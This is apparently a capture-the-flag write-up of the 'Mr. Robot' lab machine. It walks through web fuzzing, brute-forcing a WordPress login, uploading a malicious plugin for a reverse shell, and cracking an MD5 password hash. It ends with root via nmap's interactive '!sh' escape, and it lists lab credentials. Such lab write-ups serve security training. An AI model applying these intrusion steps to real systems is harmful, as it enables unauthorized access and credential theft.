# Mr. Robot

### Users:
robot

### Credentials:

**Wordpress login:**\
 | Username: elliot, Password: ER28-0652

**Machine:**\
 | Username: robot, Password: abcdefghijklmnopqrstuvwxyz

## Port Scan:



## Content Discovery:

### Fuzzing
**URL              : http://10.10.238.147/FUZZ**
```
Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
Follow redirects : false
Calibration      : false
Timeout          : 10
Threads          : 40
Matcher          : Response status: 200-299,301,302,307,401,403,405,500
Filter           : Response status: 404
________________________________________________
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 125ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 136ms]
wp-login.php            [Status: 200, Size: 2671, Words: 115, Lines: 53, Duration: 194ms]
wp-register.php         [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 131ms]
index.html              [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 106ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 113ms]
readme.html             [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 104ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 107ms]
license.txt             [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 153ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 105ms]
wp-commentsrss2.php     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 121ms]
wp-config.php           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 110ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 106ms]
wp-settings.php         [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 97ms]
```

**URL              : http://10.10.238.147/FUZZ/**
```
Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
Follow redirects : false
Calibration      : false
Timeout          : 10
Threads          : 40
Matcher          : Response status: 200-299,301,302,307,401,403,405,500
Filter           : Response status: 404
________________________________________________
images                  [Status: 403, Size: 216, Words: 16, Lines: 10, Duration: 107ms]
admin                   [Status: 200, Size: 1077, Words: 189, Lines: 31, Duration: 115ms]
js                      [Status: 403, Size: 212, Words: 16, Lines: 10, Duration: 102ms]
css                     [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 115ms]
wp-content              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 262ms]
wp-includes             [Status: 403, Size: 221, Words: 16, Lines: 10, Duration: 99ms]
wp-admin                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 527ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 468ms]
blog                    [Status: 403, Size: 214, Words: 16, Lines: 10, Duration: 100ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 621ms]
feed                    [Status: 200, Size: 809, Words: 12, Lines: 22, Duration: 807ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 1390ms]
video                   [Status: 403, Size: 215, Words: 16, Lines: 10, Duration: 87ms]
image                   [Status: 200, Size: 11731, Words: 467, Lines: 170, Duration: 1536ms]
audio                   [Status: 403, Size: 215, Words: 16, Lines: 10, Duration: 115ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 116ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1361ms]
wp-login                [Status: 200, Size: 2671, Words: 115, Lines: 53, Duration: 1388ms]
0                       [Status: 200, Size: 8341, Words: 285, Lines: 122, Duration: 1436ms]
```
### Tech Stack:
PHP/5.5.29\
WordPress version 4.3.1\
Web Server: Apache httpd

## Foothold / Privilege Escalation

### Initial Foothold
I looked in robots.txt I found an entry of “fsocity.dic” and and entry for the first flag.




- fsocity.dic turned out to be a large dictionary file with possible usernames and passwords.

I noticed there was some duplicates in fsocity.dic so I sorted it to eliminate duplicates. I used the forgot password page to try and find out if I have a valid username in the file. I used ffuf for this with the POST method and I filtered out all the lines with the count of 51 since I first tested to see what invalid output returns.



I used wpscan to brute force the login page with the username elliot and for the password I used the sorted list,
Brute force attack found a valid password and I could login to the wordpress admin panel with the user elliot. In the dashboard
I notice that I could upload plugins, so using a malicious wordpress plugin script from github, I crafted a malicious plugin and uploaded it
using the dashboard.





After uploading I had to visit a specific .php file printed after setting up the plugin and I got a reverse shell as a service user.



#### Moving to a real user
In robot's home directory there was a file named password.raw-md5 containing his password in a hashed format.



I used a tool called hashcat to crack the hash using the file I found using robots.txt and that way I was able to log in
as the user robot.





#### Machine enumeration:
```
╔══════════╣ Analyzing Wordpress Files
-rwxr-x--- 1 bitnamiftp daemon 3756 Nov 14  2015 /opt/bitnami/apps/wordpress/htdocs/wp-config.php                   
define('DB_NAME', 'bitnami_wordpress');
define('DB_USER', 'bn_wordpress');
define('DB_PASSWORD', '570fd42948');
define('DB_HOST', 'localhost:3306');
define('WP_SITEURL', 'http://' . $_SERVER['HTTP_HOST'] . '/');
define('WP_HOME', 'http://' . $_SERVER['HTTP_HOST'] . '/');
define('FTP_USER', 'bitnamiftp');
define('FTP_HOST', '127.0.0.1');
```
**SUID Binaries:**
```
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

### Privilege Escalation
As the user robot I was not allowed to run sudo on the machine, but I noticed in the SUID binaries,
nmap had a SUID bit set, meaning it was running as root.



To exploit this I first wanted to see if I was able to run nmap interactively and I was, so next thing
I went on gtfobins and found that using the interactive nmap shell I can elevate my privileges to root
using:
```
/usr/local/bin/nmap --interactive
nmap> !sh
```



## Journal
**Malicious wordpress plugin:**\
https://github.com/wetw0rk/malicious-wordpress-plugin\
**Nmap SUID bit exploit:**\
https://gtfobins.github.io/gtfobins/nmap/#suid